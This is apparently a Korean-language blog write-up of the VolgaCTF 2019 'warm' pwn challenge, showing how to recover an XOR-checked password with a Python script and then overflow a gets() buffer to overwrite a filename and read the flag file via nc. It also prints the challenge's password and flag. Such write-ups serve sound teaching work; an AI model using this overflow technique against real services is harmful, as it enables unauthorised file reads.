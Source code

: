 ```yaml
---
layout: post
title: [volgaCTF 2019] warm
excerpt_separator: <!--more-->
tags:
  - Vertex
  - VolgaCTF2019
  - Write-up
---
```




# VolgaCTF2019 - warm

arm 바이너리로 되어있는 간단한 포너블 문제이다.



arm 명령어는 익숙치 않아서

hexray를 사용하고, 호출하는 함수 역할대로 네이밍을 해보면

![](https://i.imgur.com/Z8KZMMP.png)





선언된 내부 변수명 설정.

![](https://i.imgur.com/MsbflRq.png)



이 바이너리는

1. flag파일의 이름을 환경변수로부터 가져온다. 환경변수에 없으면 그냥 “flag”
2. 패스워드를 gets로 inputBuf[100]에 입력받는다. (버퍼오버플로우 발생)
3. 입력값을 chkPassword로 확인
4. filename에 들어있는 파일을 읽어서 화면에 뿌려줌.



gets에서는 버퍼오버플로우가 발생하는데, 이를 통해 inputBuf[100]을 넘겨서 filename을 덮어쓸 수 있습니다. 그럼 임의의 파일을 읽을 수 있습니다.



풀이 절차는

1. chkPassword 함수를 분석해 암호를 알아낸다.

 	2. 버퍼오버플로우를 이용해 flag파일을 읽는다. 또는 쉘을 얻어낸다.



## chkPassword 함수를 통해 암호 알아내기

![](https://i.imgur.com/Z9AVcMd.png)

상당히 노골적인(?) 암호 체크 함수입니다.

각 조건별로 (passChr[i] ^ passChr[i-1]) == ?? 형태이고, 

?? ^ passChr[i-1] 를 통해 passChr[i]의 값을 알아낼 수 있습니다.

passChr[0]은 85 ^ 0x23 즉 76입니다.

이 값을 이용해 연쇄적으로 모든 password를 알아낼 수 있습니다.



```python
key = [85,78,30,21,94,28,33,1,52,7,53,17,55,60,114,71]

passChr = 35 # 0x23

password = ""
for i in key:
    passChr = i ^ passChr
    password += chr(passChr)

print(password)
```

```
v8&3mqPQebWFqM?x
```





```
python -c "print('v8&3mqPQebWFqM?x');" | nc warm.q.2019.volgactf.ru 443 
```

\>>>

```
Hi there! I've been waiting for your password!
v8&3mqPQebWFqM?x
Seek file with something more sacred!
```





## flag 파일 읽기

BOF를 이용해 filename을 덮어쓸 수 있습니다.

inputBuf 크기가 100이고, 아까 구한 패스워드 크기가 16이므로,

```
( password ) + ( 84 크기 dummy ) + (읽을 파일명)
```



으로 페이로드를 짜면 됩니다.



아까 패스워드를 입력해서 환경변수로 등록된 flag파일의 내용이

```
Seek file with something more sacred!
```

였고, 다른 writeup들을 찾아본 결과 “sacred” 파일을 읽으면 된다네요.



``` sh
python -c "print('v8&3mqPQebWFqM?x'+'A'*84+'sacred');" | nc warm.q.2019.volgactf.ru 443 
```



이렇게 찾은 플래그는

```
VolgaCTF{1_h0pe_ur_wARM_up_a_1ittle} 
```

